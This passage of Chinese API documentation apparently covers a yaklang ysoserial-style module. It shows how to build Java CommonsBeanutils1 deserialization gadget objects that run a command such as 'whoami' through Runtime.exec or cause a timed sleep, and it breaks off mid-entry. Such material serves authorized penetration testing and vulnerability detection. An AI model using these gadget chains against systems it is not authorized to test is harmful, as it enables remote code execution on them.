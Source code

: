**请求参数**


**返回类型**

- `r1` : 返回一个GenClassOptionFun类型的值，用于设置生成RuntimeExec类的模板

## 示例代码

### 基础用法

设置生成RuntimeExec类的模板并调用command函数

```yaklang
yso.GetCommonsBeanutils1JavaObject(yso.useRuntimeExecTemplate(),yso.command('whoami'))
```

## 89. `yso.useSleepEvilClass`

## 功能描述

设置 Sleep 类，需要配合 useSleepTime 使用，功能类似于 useSleepTemplate。

## 参数说明

```
func GenClassOptionFun useSleepEvilClass()
```

**请求参数**


**返回类型**

- `r1` : 返回一个 GenClassOptionFun 类型的对象，用于设置 Sleep 类

## 示例代码

### 基础用法

设置 Sleep 类后，配合设置 Sleep 时间为5秒

```yaklang
yso.GetCommonsBeanutils1JavaObject(yso.useSleepEvilClass(),yso.useSleepTime(5))
```

## 90. `yso.useSleepTemplate`

## 功能描述

SetClassSleepTemplate

## 参数说明
